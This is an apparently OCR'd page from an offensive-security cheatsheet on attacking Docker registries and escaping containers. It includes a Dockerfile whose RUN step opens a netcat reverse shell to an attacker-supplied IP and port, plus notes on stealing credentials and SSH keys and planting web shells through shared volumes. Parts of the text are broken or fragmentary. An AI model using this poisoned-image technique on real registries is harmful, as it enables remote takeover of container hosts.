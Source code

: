 #### Abusing Docker Registry

[Docker registries](https://docs.docker.com/registry/) are stateless server side application stores the Docker Image. Registries store and provide Docker images for use. Private registries contain various called a **tag**. The Docker Registry is a JSON endpoint query it with 

Nmap scan to find the ports to interact with the container.

```bash
# postman
GET http://$domain:$port/
````

#### Reversing Images
Download the image to reverse
```docker
docker pull app/app:$TAG
```

[Dive](https://github.com/wagoodman/dive) is a tool for exploring each layer in a docker image. 

#### Uploading Malicious Docker Images

Dockerfile 
```docker
FROM $image:

RUN apt-get update -y
RUN apt-get install netcat -y # Socat would be better!
RUN nc -c /bin/sh $IP $PORT
```
Build image
```bash
docker build
```
Then upload with push:
```
docker push
```

## Docker Escapes

#### Docker Shared Directories

Shared Directories (Volume Mounts) are connected host and guest file systems, which are mounted with Read-Only or Read-Write permissions. 
- Read access to get:
	- Credentials
	- `ssh` keys - see [[SSH-Cheatsheet]]
- Write access to:
	- Write [[Web-Shells]]
	- Write [[Persistence]] mechanisms
	- Write Reverse Shells - [[Reverse-Shells-Listing]]

#### Shared Namespaces
